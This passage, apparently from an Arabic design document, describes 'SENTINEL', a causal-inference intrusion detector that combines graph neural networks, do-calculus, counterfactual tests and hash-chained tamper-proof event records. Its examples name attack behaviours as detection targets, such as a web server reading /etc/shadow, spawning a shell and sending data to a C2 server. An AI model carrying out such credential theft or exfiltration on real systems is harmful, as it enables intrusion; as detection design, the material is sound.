   المهاجم يحاول التنكر — نفس الـ context كالعادي!
   ← الأنظمة التقليدية تفشل هنا
   ← SENTINEL ينجح: السؤال ليس "هل الـ context عادي؟"
     بل "لماذا يحتاج nginx قراءة shadow؟" → لا تفسير benign
```

## 3.3 الفرق عن Provenance Graph التقليدي

```
┌────────────────────────────┬────────────────────────────────────────┐
│  Provenance Graph (KAIROS) │  Causal Triple (SENTINEL)              │
├────────────────────────────┼────────────────────────────────────────┤
│  Node = (type, name)       │  Node = (entity, context, depth)       │
│  مثال: (process, nginx)    │  مثال: (nginx, {parent,uid,ns}, d=1) │
├────────────────────────────┼────────────────────────────────────────┤
│  Edge = (action, timestamp)│  Edge = (action, timestamp, causal_wt)│
│  لا يعرف لماذا             │  يحسب الوزن السببي ψ                  │
├────────────────────────────┼────────────────────────────────────────┤
│  لا context                │  context كامل لكل event               │
├────────────────────────────┼────────────────────────────────────────┤
│  لا depth                  │  CausalDepth يكشف التأثير غير المباشر │
├────────────────────────────┼────────────────────────────────────────┤
│  يُخدع بإضافة benign edges│  النية لا تتغير بالإضافة               │
└────────────────────────────┴────────────────────────────────────────┘
```

## 3.4 الصياغة الرسمية

**تعريف 1** — Causal Triple:

$$\tau = (s, a, o, t, c, d)$$

حيث:
- $s \in \mathcal{S}$ = مجموعة الكيانات الفاعلة (subjects)
- $a \in \mathcal{A}$ = مجموعة الأفعال (actions) = {read, write, exec, connect, send, recv, fork, mmap, ioctl, ...}
- $o \in \mathcal{O}$ = مجموعة الأهداف (objects)
- $t \in \mathbb{N}$ = الطابع الزمني بالـ nanoseconds
- $c \in \mathcal{C}_{ctx}$ = فضاء السياق (context space)
- $d \in \mathbb{N}_0$ = عمق السببية (causal depth)

**تعريف 2** — Context Space:

$$c = (p_{parent}, uid, gid, ns, cg, caps, cmd, fds)$$

**تعريف 3** — CausalDepth:

$$d(\tau) = \begin{cases} 0 & \text{if } \tau \text{ هو entry point مباشر (مستخدم)} \\ d(\tau_{parent}) + 1 & \text{otherwise} \end{cases}$$

---

# 4. الطبقة 2 — Causal Intent Graph (CIG)

## 4.1 التعريف الرياضي

CIG هو الرسم البياني الذي يمثل **فهم SENTINEL للعالم** — ليس فقط ماذا حدث، بل لماذا.

**التعريف الرسمي:**

$$G_{CIG} = (V, E, \phi, \psi, \kappa)$$

حيث:
- $V$ = مجموعة العقد (كيانات: processes, files, sockets)
- $E \subseteq V \times V$ = مجموعة الأضلاع السببية الموجهة زمنياً
- $\phi: V \rightarrow \mathcal{I}$ = **دالة تعيين النية** لكل عقدة
- $\psi: E \rightarrow [0,1]$ = **وزن السببية** لكل ضلع
- $\kappa: V \rightarrow \mathcal{K}$ = **دالة الفضاء المضاد** (counterfactual space) لكل عقدة

## 4.2 بنية العقدة في CIG

```
┌─────────────────────────────────────────────────────────────┐
│                    CIG Node Structure                       │
├─────────────────────────────────────────────────────────────┤
│                                                             │
│  struct CIGNode {                                           │
│      entity:              EntityID,        // هوية الكيان    │
│      entity_type:         EntityType,      // process/file/  │
│                                            // socket          │
│      inferred_goal:       IntentVector,    // φ(v) — النية   │
│      causal_chain:        Vec<TattooHash>, // سلسلة الأحداث  │
│      tattoo_hash:         [u8; 32],        // الوشم الحالي    │
│      counterfactual_space: CFSpace,        // κ(v) — ماذا لو │
│      embedding:           Vec<f32>,        // GNN embedding   │
│      causal_depth:        u32,             // عمق السببية     │
│      first_seen:          u64,             // أول ظهور        │
│      last_seen:           u64,             // آخر ظهور        │
│      event_count:         u64,             // عدد الأحداث     │
│  }                                                          │
│                                                             │
└─────────────────────────────────────────────────────────────┘
```

## 4.3 بنية الضلع في CIG

```
┌─────────────────────────────────────────────────────────────┐
│                    CIG Edge Structure                       │
├─────────────────────────────────────────────────────────────┤
│                                                             │
│  struct CIGEdge {                                           │
│      source:         NodeID,              // العقدة المصدر   │
│      target:         NodeID,              // العقدة الهدف    │
│      action:         ActionType,          // نوع الفعل      │
│      causal_weight:  f64,                 // ψ(e) — الوزن   │
│      timestamp:      u64,                 // متى حدث        │
│      context:        CausalContext,       // السياق          │
│      is_counterfactual_necessary: bool,   // هل إزالته       │
│                                           // تغير النتيجة؟   │
│  }                                                          │
│                                                             │
└─────────────────────────────────────────────────────────────┘
```

## 4.4 معادلة وزن السببية — ψ(e)

### الصيغة الأصلية (Linear):

$$\psi(e_{ij}) = \alpha \cdot P(v_j | do(v_i)) + \beta \cdot \text{temporal\_decay}(t_j - t_i) + \gamma \cdot \text{semantic\_dist}(v_i, v_j)$$

### المشكلة مع الصيغة الأصلية:

```
┌─────────────────────────────────────────────────────────┐
│  لماذا الجمع الخطي خاطئ؟                                │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  مثال: nginx → read(/etc/shadow)                        │
│                                                         │
│  P(do) = 0.8 (مرتفع — الـ GNN يظن أن هناك علاقة)       │
│  temporal_decay = 0.9 (الحدثان قريبان زمنياً)           │
│  semantic_dist = 0.1 (nginx و shadow لا يجتمعان!)       │
│                                                         │
│  Linear: ψ = 0.4×0.8 + 0.3×0.9 + 0.3×0.1               │
│        = 0.32 + 0.27 + 0.03 = 0.62  ← مرتفع! خطأ!      │
│                                                         │
│  المشكلة: semantic_dist = 0.1 يجب أن يُلغي الوزن       │
│  كلياً — nginx ليس له سبب لقراءة shadow                │
│  ولكن الجمع الخطي لم يعكس هذا                          │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

### الصيغة المحسّنة — Gated Combination:

$$\psi(e_{ij}) = P(v_j | do(v_i)) \cdot \sigma\Big(\beta \cdot \text{decay}(\Delta t) + \gamma \cdot \text{sem}(v_i, v_j) - b\Big)$$

حيث:
- $\sigma(x) = \frac{1}{1+e^{-x}}$ = sigmoid function
- $b$ = bias term يُتعلَّم

```
┌─────────────────────────────────────────────────────────┐
│  كيف يعمل Gated Combination؟                            │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  نفس المثال: nginx → read(/etc/shadow)                  │
│                                                         │
│  P(do) = 0.8                                            │
│  gate = σ(0.3×0.9 + 0.3×0.1 - 0.5)                     │
│       = σ(0.27 + 0.03 - 0.5)                            │
│       = σ(-0.2)                                          │
│       = 0.45                                             │
│                                                         │
│  ψ = 0.8 × 0.45 = 0.36  ← أقل!                         │
│                                                         │
│  ولكن مع semantic_dist سلبي حاد:                        │
│  sem(nginx, shadow) = -2.0 (مستحيل منطقياً)             │
│  gate = σ(0.27 + 0.3×(-2.0) - 0.5)                      │
│       = σ(0.27 - 0.6 - 0.5)                              │
│       = σ(-0.83)                                         │
│       = 0.30                                             │
│                                                         │
│  ψ = 0.8 × 0.30 = 0.24  ← منخفض جداً = مشبوه!         │
│                                                         │
│  الـ gate يخنق الوزن السببي عندما الـ semantics          │
│  تقول "هذا لا يجتمع"                                   │
└─────────────────────────────────────────────────────────┘
```

### تفصيل كل مكوّن:

#### المكوّن 1 — P(v_j | do(v_i)) — الاحتمال السببي التدخلي

هذا هو قلب Pearl's Do-Calculus. السؤال:

> "إذا **أجبرنا** $v_i$ أن يحدث (تدخل)، ما احتمال أن $v_j$ يحدث؟"

**الفرق بين التدخل (do) والملاحظة (observe):**

```
Observational:  P(shadow_read | nginx_running)
  = "عندما نرى nginx يعمل، كم مرة يقرأ shadow؟"
  → قد تكون مرتفعة إذا المهاجم سمّم الـ data

Interventional: P(shadow_read | do(nginx_running))
  = "إذا شغّلنا nginx بأنفسنا (تدخلنا)، هل سيقرأ shadow؟"
  → منخفضة جداً — لأن nginx العادي لا يحتاج shadow
  → التدخل يُزيل تأثير confounders
```

**مشكلة عملية**: حساب $P(do)$ الكامل يحتاج معرفة كل الـ confounders — وهذا مستحيل في kernel.

**الحل — Front-Door Adjustment:**

$$P(v_j | do(v_i)) \approx \sum_{m \in \mathcal{M}} P(v_j | m) \cdot P(m | v_i)$$

حيث $\mathcal{M}$ = الوسطاء المعروفون (mediators):

```
مثال:
  v_i = nginx process
  v_j = /etc/shadow read
  m = syscalls الوسيطة

  P(shadow_read | do(nginx)) 
  = Σ P(shadow_read | syscall_m) × P(syscall_m | nginx)
  
  m1 = open() → P(shadow | open) × P(open | nginx) = 0.01 × 0.95
  m2 = exec() → P(shadow | exec) × P(exec | nginx) = 0.5 × 0.001
  
  Result ≈ 0.01 ← منخفض = nginx لا يملك سبباً سببياً لقراءة shadow
```

#### المكوّن 2 — Temporal Decay

$$\text{decay}(\Delta t) = e^{-\lambda \cdot \Delta t}$$

```
λ = معامل الانحلال (hyperparameter)

  Δt = 1ms   → decay = 0.999   (قريب جداً → علاقة سببية قوية)
  Δt = 1s    → decay = 0.368   (بعيد → علاقة أضعف)
  Δt = 1min  → decay = 0.0001  (بعيد جداً → تقريباً لا علاقة)
  
  ⚠️ ولكن: APT النائم يتقطع عبر أسابيع!
  → هنا يأتي دور Causal Tattoos — تربط الأحداث البعيدة
```

#### المكوّن 3 — Semantic Distance

$$\text{sem}(v_i, v_j) = \cos(\mathbf{e}_i, \mathbf{e}_j) \cdot \mathbb{1}[\neg\text{axiom\_violated}(v_i, v_j)]$$

حيث $\mathbf{e}_i, \mathbf{e}_j$ = embeddings من الـ GNN

```
مثال مسافات دلالية:
  sem(nginx, access.log) = +0.95  (طبيعي جداً)
  sem(nginx, index.html)  = +0.90  (طبيعي)
  sem(nginx, /tmp/data)   = +0.30  (ممكن)
  sem(nginx, /etc/shadow) = -0.80  (غير منطقي)
  sem(nginx, bash)         = -2.00  (مستحيل → axiom violation)
```

## 4.5 مخطط بناء CIG



---

# 5. الطبقة 3 — Neuro-Symbolic Causal Engine

## 5.1 لماذا Neuro-Symbolic وليس GNN فقط؟

```
┌─────────────────────────────────────────────────────────┐
│  المشكلة مع GNN النقي                                   │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  GNN يتعلم أنماط إحصائية — لا قواعد منطقية:             │
│                                                         │
│  ▸ يتعلم "nginx عادةً لا يستدعي bash"                   │
│    ← بالـ Poisoning المهاجم يجعله يتعلم أن هذا عادي    │
│                                                         │
│  ▸ يعاني من Oversmoothing:                               │
│    بعد 3-4 طبقات، كل الـ nodes تبدو متشابهة            │
│    ← يفقد التمييز بين benign و malicious                │
│                                                         │
│  ▸ لا يفهم الاتجاه الزمني:                              │
│    GNN مصمم للهياكل المكانية (molecules, social graphs)  │
│    في السببية: A→B ≠ B→A — الاتجاه هو كل شيء           │
│                                                         │
│  الحل: ندمج GNN (يتعلم الأنماط) مع                      │
│         Symbolic Engine (يفرض القواعد)                   │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 5.2 البنية ثلاثية الطبقات

```
┌─────────────────────────────────────────────────────────┐
│            Neuro-Symbolic Causal Engine                  │
│                                                         │
│  ┌─────────────────────────────────────────────────┐    │
│  │  Layer 1: Neural (GNN)                          │    │
│  │  يبني embeddings من بنية الـ graph              │    │
│  │  يتعلم الأنماط الإحصائية                        │    │
│  │  الخرج: h_v — vector لكل node                   │    │
│  └─────────────────┬───────────────────────────────┘    │
│                    │                                    │
│                    ▼                                    │
│  ┌─────────────────────────────────────────────────┐    │
│  │  Layer 2: Symbolic (Do-Calculus + Axioms)       │    │
│  │  يطبق Causal Inference                          │    │
│  │  يفرض Semantic Constraints                       │    │
│  │  الخرج: causal_score لكل node                   │    │
│  └─────────────────┬───────────────────────────────┘    │
│                    │                                    │
│                    ▼                                    │
│  ┌─────────────────────────────────────────────────┐    │
│  │  Layer 3: Constraint Embedding                  │    │
│  │  الـ axioms مدمجة في هندسة الـ embedding space  │    │
│  │  ليست rules خارجية — هي بنية الفضاء نفسه       │    │
│  │  الخرج: constrained_embedding                   │    │
│  └─────────────────────────────────────────────────┘    │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 5.3 Layer 1 — GNN مع Message Passing

**المعادلة الأساسية — Message Passing Neural Network:**

$$h_v^{(k)} = \sigma\left(W^{(k)} \cdot \text{AGG}\left(\left\{h_u^{(k-1)} : u \in \mathcal{N}(v)\right\}\right) + B^{(k)} \cdot h_v^{(k-1)}\right)$$

حيث:
- $h_v^{(k)}$ = embedding العقدة $v$ في الطبقة $k$
- $\mathcal{N}(v)$ = جيران العقدة $v$ في الـ graph
- $W^{(k)}, B^{(k)}$ = matrices تُتعلَّم
- $\text{AGG}$ = دالة التجميع
- $\sigma$ = دالة التنشيط (ReLU أو GELU)

**الابتكار — Causal-Aware Aggregation:**

بدل AGG العادي (mean أو sum)، نستخدم **causal-weighted aggregation**:

$$\text{AGG}_{causal}\left(\{h_u\}\right) = \sum_{u \in \mathcal{N}(v)} \psi(e_{uv}) \cdot h_u$$

```
المعنى: بدل أن كل الجيران يساهمون بالتساوي،
الجيران ذوو الوزن السببي العالي يساهمون أكثر.

مثال:
  nginx ← access.log (ψ=0.95) ← يساهم كثيراً في embedding nginx
  nginx ← /etc/shadow (ψ=0.05) ← يساهم قليلاً (يبقى ككشف شذوذ)
```

## 5.4 Layer 2 — Symbolic Engine (Do-Calculus)

### Pearl's Three Rules of Do-Calculus:

```
┌─────────────────────────────────────────────────────────┐
│  القواعد الثلاث لـ Do-Calculus (Judea Pearl)            │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  Rule 1 — Insertion/Deletion of Observations:           │
│  P(y|do(x),z,w) = P(y|do(x),w)                         │
│  إذا Z لا يؤثر على Y بعد التدخل في X                    │
│                                                         │
│  Rule 2 — Action/Observation Exchange:                  │
│  P(y|do(x),do(z),w) = P(y|do(x),z,w)                   │
│  إذا Z ليس وسيطاً بين X و Y                             │
│                                                         │
│  Rule 3 — Insertion/Deletion of Actions:                │
│  P(y|do(x),do(z),w) = P(y|do(x),w)                     │
│  إذا لا يوجد مسار سببي من Z إلى Y                       │
│                                                         │
│  ────────────────────────────────────────────────────    │
│                                                         │
│  التطبيق في SENTINEL:                                   │
│  X = عملية مشبوهة (nginx يقرأ shadow)                   │
│  Y = نتيجة ضارة (exfiltration)                         │
│  Z = أحداث أخرى (confounders)                           │
│                                                         │
│  السؤال: P(exfiltration | do(shadow_read))              │
│  = إذا أجبرنا nginx يقرأ shadow، هل سيحدث exfil؟       │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

### الحل العملي — لأن Do-Calculus الكامل NP-hard:

```
┌─────────────────────────────────────────────────────────┐
│  استراتيجية "الهرم المقلوب" لتطبيق Do-Calculus         │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  99% من الأحداث                                         │
│  ┌──────────────────────────────────────────────┐       │
│  │  L0/L1 — قواعد سريعة + GNN                   │       │
│  │  Latency: microseconds                        │       │
│  │  لا حاجة لـ Do-Calculus                        │       │
│  └──────────────────────────────────────────────┘       │
│                                                         │
│  0.9% من الأحداث (تجاوزت anomaly threshold)            │
│  ┌────────────────────────────────────────┐              │
│  │  Front-Door Adjustment                 │              │
│  │  تقريب سريع لـ Do-Calculus             │              │
│  │  Latency: 1-15ms                       │              │
│  └────────────────────────────────────────┘              │
│                                                         │
│  0.1% من الأحداث (لا يزال غامضاً)                      │
│  ┌──────────────────────────┐                            │
│  │  Full Counterfactual     │                            │
│  │  Latency: 5-50ms        │                            │
│  └──────────────────────────┘                            │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 5.5 Layer 3 — Semantic Constraint Embedding

**الفكرة**: الـ axioms ليست rules خارجية يُفحص ضدها — هي **بنية الفضاء نفسه**.

```
في فضاء الـ embedding العادي:
  nginx و bash قد يكونان قريبين (لأنهما processes)
  
في فضاء SENTINEL المقيد:
  nginx و bash يجب أن يكونا في مناطق مختلفة
  لأن الـ axiom يقول: "web_server ≠ spawn(shell)"
  → هذا القيد مدمج في هندسة الفضاء
  → لا يمكن تجاوزه بالتدريب أو الـ poisoning
```

**المعادلة — Constrained Loss Function:**

$$\mathcal{L}_{total} = \mathcal{L}_{task} + \lambda_{axiom} \cdot \mathcal{L}_{axiom}$$

$$\mathcal{L}_{axiom} = \sum_{(i,j) \in \mathcal{A}_{violated}} \max(0, \cos(h_i, h_j) - \epsilon)$$

```
المعنى:
  إذا entity_i و entity_j لا يجب أن يكونا قريبين (axiom)
  والـ GNN جعلهم قريبين في الـ embedding space
  → penalty عالية ← يُجبر على إبعادهم
  
  ε = هامش الأمان (مثلاً -0.5)
  لا يكفي أن يكونا غير متشابهين — يجب أن يكون cos < -0.5
```

## 5.6 مخطط Neuro-Symbolic Engine الكامل



---

# 6. الطبقة 4 — Intent Inference Engine

## 6.1 فضاء النوايا — Hierarchical Intent Space

بدل فضاء مسطح `{benign, recon, exfil, ...}`, نستخدم **فضاء هرمي** يعكس MITRE ATT&CK:

```
                        ┌──────────┐
                        │ Intent   │
                        └────┬─────┘
                    ┌────────┴────────┐
               ┌────┴────┐      ┌────┴────┐
               │ Benign  │      │Malicious│
               └─────────┘      └────┬────┘
                          ┌──────────┼──────────┐
                     ┌────┴────┐┌────┴────┐┌────┴────┐
                     │  Pre-   ││ Active  ││  Post-  │
                     │ Attack  ││ Attack  ││ Attack  │
                     └────┬────┘└────┬────┘└────┬────┘
                          │         │         │
                    ┌─────┴───┐  ┌──┴──┐  ┌──┴──────┐
                    │Recon    │  │Exec │  │Exfil    │
                    │Weaponiz │  │Esc  │  │Persist  │
                    │Delivery │  │Lat  │  │C2       │
                    └─────────┘  └─────┘  └─────────┘
```

**التعريف الرسمي:**

$$\mathcal{I} = \{\mathcal{I}_0, \mathcal{I}_1, \mathcal{I}_2\}$$

- $\mathcal{I}_0 = \{\text{benign}, \text{malicious}\}$ — المستوى الأول (coarse)
- $\mathcal{I}_1 = \{\text{pre\_attack}, \text{active\_attack}, \text{post\_attack}\}$ — المستوى الثاني
- $\mathcal{I}_2 = \{\text{recon}, \text{weaponize}, \text{delivery}, \text{exec}, \text{escalation}, \text{lateral}, \text{exfil}, \text{persist}, \text{c2}\}$ — المستوى الثالث (fine)

## 6.2 معادلة استنتاج النية — Coarse-to-Fine

### الخطوة 1 — تصنيف خشن (Coarse):

$$P(\mathcal{I}_0 | v) = \text{softmax}(W_0 \cdot h_v + b_0)$$

```
سريع جداً — فقط binary classification
إذا P(benign) > 0.99 → ALLOW فوراً
إذا P(malicious) > 0.99 → انتقل للخطوة 2
إذا 0.5 < P < 0.99 → gray zone → انتقل للخطوة 2
```

### الخطوة 2 — تصنيف وسيط (Medium):

$$P(\mathcal{I}_1 | v, \mathcal{I}_0 = \text{mal}) = \text{softmax}(W_1 \cdot [h_v; P(\mathcal{I}_0)] + b_1)$$

```
يحدد المرحلة: pre-attack, active, post-attack
هذا يساعد في تحديد إلحاح الاستجابة:
  pre_attack → مراقبة + deception
  active_attack → تدخل فوري
  post_attack → containment + forensics
```

### الخطوة 3 — تصنيف دقيق (Fine):

$$P(\mathcal{I}_2 | v, \mathcal{I}_1) = \text{softmax}(W_2 \cdot [h_v; P(\mathcal{I}_0); P(\mathcal{I}_1)] + b_2)$$

## 6.3 المعادلة الأساسية — Constrained Intent Inference

$$\mathcal{I}(v) = \arg\max_{i \in \mathcal{I}_2} P(i | \text{causal\_chain}(v), \text{axioms}, \text{tattoos}) \cdot \mathbb{1}[\neg \text{axiom\_violated}(v, i)]$$

**شرح كل مكوّن:**

```
┌─────────────────────────────────────────────────────────┐
│  تشريح المعادلة                                         │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  P(i | causal_chain(v), axioms, tattoos)                │
│  │       │                │        │                    │
│  │       │                │        └─ الذاكرة التاريخية  │
│  │       │                │           من Causal Tattoos  │
│  │       │                │           (هل هذا الكيان     │
│  │       │                │            مشتبه به سابقاً؟) │
│  │       │                │                             │
│  │       │                └─ القواعد المنطقية الثابتة     │
│  │       │                   Universal + Contextual      │
│  │       │                                              │
│  │       └─ السلسلة السببية الكاملة للـ events           │
│  │          من أول حدث حتى الآن                          │
│  │                                                      │
│  └─ الاحتمال الأعلى بين كل النوايا الممكنة              │
│                                                         │
│  × 𝟙[¬axiom_violated(v, i)]                             │
│    │                                                    │
│    └─ HARD CONSTRAINT: إذا النية i تنتهك axiom          │
│       → الاحتمال = 0 رياضياً                            │
│       → لا يهم كم الـ P مرتفع                           │
│       → Data Poisoning لا يعمل هنا                      │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 6.4 لماذا Hard Constraint وليس Soft Penalty؟

```
┌──────────────────────────────────────────────────────┐
│  Soft Constraint (كل الأنظمة الحالية):               │
│                                                      │
│  P(benign | nginx→bash) = 0.01                       │
│  ↓ بعد أسبوع من poisoning                            │
│  P(benign | nginx→bash) = 0.05                       │
│  ↓ بعد شهر                                          │
│  P(benign | nginx→bash) = 0.15                       │
│  ↓ بعد 3 أشهر                                       │
│  P(benign | nginx→bash) = 0.40  ← 💀 أصبح "عادي"    │
│                                                      │
│  ──────────────────────────────────────────────────── │
│                                                      │
│  Hard Constraint (SENTINEL):                         │
│                                                      │
│  P(benign | nginx→bash) × 𝟙[axiom: web≠shell]       │
│  = P(benign) × 0                                     │
│  = 0                                                 │
│  ↓ بعد أسبوع من poisoning                            │
│  = 0                                                 │
│  ↓ بعد شهر                                          │
│  = 0                                                 │
│  ↓ بعد سنة                                          │
│  = 0  ← لا يتغير أبداً                               │
│                                                      │
└──────────────────────────────────────────────────────┘
```

## 6.5 Causal Entropy — مقياس الشك الذكي

بدل confidence threshold عادي (`if P > 0.95 → malicious`)، نستخدم **Causal Entropy**:

$$H_{causal}(v) = -\sum_{i \in \mathcal{I}_2} P(i | \text{chain}(v)) \cdot \log_2 P(i | \text{chain}(v))$$

```
┌─────────────────────────────────────────────────────────┐
│  لماذا Entropy أفضل من Confidence؟                      │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  حالة 1:                                                │
│  P(benign)=0.4, P(recon)=0.6                            │
│  Confidence = max = 0.6                                  │
│  Entropy = -(0.4×log0.4 + 0.6×log0.6) = 0.97 bits      │
│                                                         │
│  حالة 2:                                                │
│  P(benign)=0.4, P(recon)=0.2, P(exfil)=0.2,            │
│  P(lateral)=0.1, P(c2)=0.1                              │
│  Confidence = max = 0.4  ← نفس confidence تقريباً!      │
│  Entropy = 2.12 bits  ← أعلى بكثير!                     │
│                                                         │
│  الحالة 2 أخطر بكثير:                                   │
│  النموذج "مشتت" بين عدة نوايا خبيثة ←                  │
│  هذا يعني هجوم متعدد المراحل!                           │
│  Confidence العادي لا يكشف هذا                           │
│  Entropy تكشفه فوراً                                    │
│                                                         │
│  ──────────────────────────────────────────────────────  │
│                                                         │
│  القرار بناءً على Entropy:                               │
│  H < 0.5  → LOW entropy → النموذج متأكد → تصرف فوراً    │
│  0.5 ≤ H < 1.5 → MEDIUM → يحتاج Deep Reasoning (L3)    │
│  H ≥ 1.5  → HIGH entropy → DECEPTION MODE ← اصطد       │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 6.6 مخطط Intent Inference الكامل



---

# 7. الطبقة 5 — Counterfactual Reasoning

## 7.1 ما هو التفكير المضاد (Counterfactual)؟

```
┌─────────────────────────────────────────────────────────┐
│  التعريف البسيط                                         │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  السؤال العادي:    "ماذا حدث؟"                          │
│  السؤال السببي:    "لماذا حدث؟"                         │
│  السؤال المضاد:    "لو لم يحدث X، هل كان Y سيحدث؟"    │
│                                                         │
│  مثال:                                                  │
│  حدث: "nginx قرأ /etc/shadow ثم أرسل بيانات للخارج"    │
│                                                         │
│  السؤال المضاد:                                         │
│  "لو لم يقرأ nginx الـ shadow، هل كان سيرسل بيانات؟"  │
│                                                         │
│  إذا نعم → القراءة ليست السبب → ابحث عن السبب الحقيقي  │
│  إذا لا  → القراءة هي السبب → CONFIRMED ATTACK         │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 7.2 المعادلة الرسمية

$$CF(Y | do(\neg X)) = \sum_{z \in \mathcal{Z}} P(Y | X=0, Z=z) \cdot P(Z=z | X=1)$$

حيث:
- $Y$ = النتيجة (مثلاً: exfiltration)
- $X$ = الحدث المشبوه (مثلاً: shadow read)
- $Z$ = المتغيرات الوسيطة (باقي الأحداث)
- $do(\neg X)$ = "تخيل أن X لم يحدث"

## 7.3 كيف يحل Counterfactual مشكلة Mimicry Attack

```
┌─────────────────────────────────────────────────────────┐
│  Mimicry Attack — المشكلة                               │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  المهاجم يضيف benign edges:                             │
│  nginx → read(access.log) × 100                         │
│  nginx → read(error.log) × 50                           │
│  nginx → read(config) × 20                              │
│  nginx → read(/etc/shadow) × 1  ← الهجوم الحقيقي       │
│  nginx → send(C2_server) × 1    ← الهجوم الحقيقي       │
│                                                         │
│  النظام التقليدي يرى:                                   │
│  "nginx يقرأ ملفات كثيرة — shadow واحد من كثير — عادي" │
│                                                         │
│  ────────────────────────────────────────────────────── │
│                                                         │
│  SENTINEL Counterfactual Test:                          │
│                                                         │
│  إزالة الـ benign edges:                                │
│  CF(send_C2 | do(¬ read_access_log)) ≈ P(send_C2)      │
│  "لو لم يقرأ access.log، هل كان سيرسل لـ C2؟"         │
│  → نعم! إزالة access.log لا تغير شيئاً                │
│  → access.log ليس سببياً ← NOISE                       │
│                                                         │
│  CF(send_C2 | do(¬ read_shadow)) ≈ 0                   │
│  "لو لم يقرأ shadow، هل كان سيرسل لـ C2؟"             │
│  → لا! بدون shadow لا يوجد ما يُرسل                    │
│  → shadow_read هو السبب الحقيقي ← ATTACK               │
│                                                         │
│  النتيجة:                                               │
│  Benign edges ليست سببية → يتم تجاهلها                  │
│  Attack chain (shadow→C2) هي السببية الحقيقية           │
│  Mimicry FAILED ✅                                      │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 7.4 Lazy Counterfactual Evaluation — حل مشكلة الأداء

```
┌─────────────────────────────────────────────────────────┐
│  المشكلة: CF على كل edge = NP-hard                      │
│  الحل: CF فقط على الـ edges المهمة                       │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  CF_Score(e) بناءً على intent_confidence:                │
│                                                         │
│  ┌──────────────────────────────────────────────┐       │
│  │ confidence > 0.95 → SKIP CF                  │       │
│  │   النموذج متأكد، لا حاجة لإثبات إضافي        │       │
│  │   يوفر ~90% من الحسابات                       │       │
│  ├──────────────────────────────────────────────┤       │
│  │ 0.5 < confidence ≤ 0.95 → FULL CF            │       │
│  │   هنا يكمن الخطر — يحتاج إثبات سببي          │       │
│  │   ~9% من الأحداث                              │       │
│  ├──────────────────────────────────────────────┤       │
│  │ confidence ≤ 0.5 → SKIP (low threat)         │       │
│  │   ليس تهديداً حقيقياً — وفّر الموارد          │       │
│  │   ~1% من الأحداث                              │       │
│  └──────────────────────────────────────────────┘       │
│                                                         │
│  النتيجة: CF يُحسب لـ ~9% فقط من الأحداث              │
│  بدل 100% ← تسريع 11× بدون خسارة أمنية               │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

**الصياغة:**

$$CF\_Score(e) = \begin{cases} 0 & \text{if } \text{conf}(e) > 0.95 \\ \sum_z P(Y|X{=}0,Z{=}z) \cdot P(Z{=}z|X{=}1) & \text{if } 0.5 < \text{conf}(e) \leq 0.95 \\ \text{skip} & \text{if } \text{conf}(e) \leq 0.5 \end{cases}$$

---

# 8. الطبقة 6 — Causal Tattoos والذاكرة الخالدة

## 8.1 المشكلة التي تحلها

```
┌─────────────────────────────────────────────────────────┐
│  APT النائم — أخطر نوع هجمات                            │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  أسبوع 1: المهاجم يزرع backdoor                         │
│  أسبوع 2: الخادم يُعاد تشغيله ← كل السياق يضيع        │
│  أسبوع 3: لا شيء (نائم)                                │
│  أسبوع 4: المهاجم يستخدم الـ backdoor                   │
│  أسبوع 5: exfiltration                                  │
│                                                         │
│  كل الأنظمة الحالية:                                    │
│  "أسبوع 4 يبدو طبيعياً — لأن الذاكرة بدأت من أسبوع 2" │
│  ← الهجوم ينجح ✗                                       │
│                                                         │
│  SENTINEL:                                              │
│  أسبوع 1: Tattoo يُلصق على الـ backdoor                │
│  أسبوع 2: Reboot — لكن Tattoos تُحفظ وتُعاد            │
│  أسبوع 4: التفعيل → "هذا الكيان عليه tattoo منذ أسبوع 1│
│            — السلسلة السببية لم تنقطع"                  │
│  ← الهجوم يُكشف ✓                                     │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

## 8.2 بنية الـ Causal Tattoo

```
┌─────────────────────────────────────────────────────────┐
│                  Causal Tattoo Structure                 │
├─────────────────────────────────────────────────────────┤
│                                                         │
│  ┌──────────────────────────────────────────────────┐   │
│  │  entity_hash:      [u8; 32]                      │   │
│  │    ← SHA-256 hash فريد للكيان                     │   │
│  ├──────────────────────────────────────────────────┤   │
│  │  causal_context:   [u8; 32]                      │   │
│  │    ← hash السلسلة السببية الكاملة               │   │
│  │    يشمل: كل الأحداث + نواياها + أوزانها          │   │
│  ├──────────────────────────────────────────────────┤   │
│  │  intent_snapshot:  IntentVector                   │   │
│  │    ← نسخة من النية المستنتجة وقت الوشم            │   │
│  ├──────────────────────────────────────────────────┤   │
│  │  suspicion_level:  f64                            │   │
│  │    ← مستوى الشك (0.0 = عادي, 1.0 = خطير)       │   │
│  ├──────────────────────────────────────────────────┤   │
│  │  timestamp:        u64                            │   │
│  │    ← وقت الوشم بدقة nanosecond                    │   │
│  ├──────────────────────────────────────────────────┤   │
│  │  prev_tattoo:      [u8; 32]                      │   │
│  │    ← hash الوشم السابق ← BLOCKCHAIN!              │   │
│  │    إذا غُيِّر أي وشم سابق، الـ chain تنكسر       │   │
│  ├──────────────────────────────────────────────────┤   │
│  │  signature:        [u8; 64]                      │   │
│  │    ← ED25519 signature                            │   │
│  │    الـ private key في kernel space فقط           │   │
│  │    ← لا يمكن تزويره من userspace                  │   │
│  └──────────────────────────────────────────────────┘   │
│                                                         │
│  Total size: 32 + 32 + 64 + 8 + 8 + 32 + 64            │
│            = 240 bytes per tattoo                       │
│                                                         │
└─────────────────────────────────────────────────────────┘
```

